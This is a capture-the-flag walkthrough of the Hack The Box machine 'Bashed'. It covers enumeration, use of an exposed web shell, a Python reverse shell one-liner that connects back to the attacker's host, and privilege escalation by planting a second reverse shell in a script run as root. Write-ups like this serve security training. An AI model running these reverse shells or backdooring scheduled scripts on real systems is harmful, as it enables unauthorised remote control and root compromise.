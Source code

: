 # Bashed
![info-card](./info_card.png)

## Initial Enumeration

As always, we'll start off with a simple nmap scan:

```bash
nmap -sV 10.10.10.68
```

![Initial Nmap Scan](./initial_nmap.png)

Usually with such sparse results I would run a full port scan, but we'll investigate this webserver for now seeing that this is a box rated easy. Navigating to the landing page of this webserver we see the following:

![Landing Page](./landing_page.png)

Well this certainly looks interesting. If you dig around through the posts on this page you'll learn that this is a project for running a terminal in your browser and you will also come across the github [repo](https://github.com/Arrexel/phpbash). Let's run a directory buster against this webserver to see what other pages it could be hiding:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.68 -t 50
```

![Gobuster Results](./gobuster.png)

From this we see a directory `/dev` which could be interesting. Navigating to this page shows us a file `phpbash.php` which gives us a php terminal as the `www-data` user in our browser:

![PHPBash](./phpbash.png)

## Exploitation

While we have a web shell, I would much rather have a full reverse shell. I tried using my usual methods (nc or Bash -i), but python ended up being the tool for the job. Using the following command in the webshell we're able to trigger a reverse shell back to our host:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```

![Reveres Shell](./reverse.png)

As usual on a Linux box, we check `sudo -l` for quick wins. This command shows us that we are able to run any command as the user `scriptmanager`:

![Sudo Access](./sudo.png)

Before testing this access lets improve our QOL a little by converting our reverse shell to a full `tty` session. We can do this with python like so:

```bash
# Enter while in reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
```

{% hint %}
If you are asked for the terminal type after running `reset` and before you export the `TERM` variable. simply enter `xterm-256color` and proceed as normal.
{% endhint %}

After running these commands we'll have a fully interactive tty session, allowing us to use terminal functions such as `clear` and tab completion:

![Fully interactive Shell](./interactive.gif)

With this let's go ahead and assume the user `scriptmanager` using `sudo`:

```bash
sudo -i -u scriptmanager
```

![Assuming the scriptmanager User](./assume.png)

With this access we are able to read the user flag:

![User Flag](./user.png)

## Privilege Escalation

Now that we're the `scriptmanager` user, let's take a look and see what we can do with this level of access. To start we'll check the root directory and list it's contents. In Here we see that we are able to read, write, and execute in a directory called `scripts`. Inside of this directory lies two files, `test.py` and `test.txt`. What's interesting here is that `scriptmanager` owns `test.py` and `root` owns `test.txt`:

![The Scripts Directory](./scripts.png)

Let's take a closer look at `test.py`:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

So it's a pretty simple script that opens a file `test.txt` in the current directory, writes `testing 123!` and closes the file. Knowing that the file `test.txt` is owned by `root`, we can assume that the root user is executing this script on some schedule. This makes this an easy task for us, because all we need to do is insert a reverse shell into this script and wait for it to be executed as the `root` user. To do this we will use the same logic as our first reverse shell, but because this will live in an actual python script we can clean up the syntax. After modification this is what `test.py` looks like:

```python
import socket,subprocess,os
f = open("test.txt","w")
f.write("privesc")
f.close
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.13",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

After writing this file and starting a netcat listener on port `4444` we only need to wait about a minute and our script is executed as the `root` user. This gives us the ability to read the root flag:

![Root Flag](./root.png)

